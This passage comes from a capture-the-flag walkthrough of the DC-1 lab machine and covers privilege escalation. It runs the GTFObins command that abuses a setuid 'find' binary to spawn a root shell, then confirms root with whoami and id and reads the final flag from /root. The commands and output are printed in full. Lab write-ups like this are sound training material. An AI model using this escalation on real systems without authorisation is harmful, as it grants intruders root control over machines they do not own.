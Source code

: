 ## Privilege escalation
Let's run the example from GTFObins.
```bash
www-data@DC-1:/var/www$ find . -exec "/bin/sh" \;
find . -exec "/bin/sh" \;
# 
```
We got a shell on the victim. Now let's check who I am.
```bash
# whoami;id;hostname
whoami;id;hostname
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
DC-1
```
We are root on the machine. Now we only have to capture the root flag.
```bash
# cd /root
cd /root
# ls
ls
thefinalflag.txt
```
Now let's do the OSCP style to capture the proof.
```bash
# whoami;id;hostname;ifconfig;cat thefinalflag.txt
whoami;id;hostname;ifconfig;cat thefinalflag.txt
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
DC-1
eth0      Link encap:Ethernet  HWaddr 08:00:27:ff:62:68  
          inet addr:10.0.2.30  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:feff:6268/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6355 errors:0 dropped:0 overruns:0 frame:0
          TX packets:11237 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1580537 (1.5 MiB)  TX bytes:3816634 (3.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:481 errors:0 dropped:0 overruns:0 frame:0
          TX packets:481 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:47604 (46.4 KiB)  TX bytes:47604 (46.4 KiB)

Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
# 

```
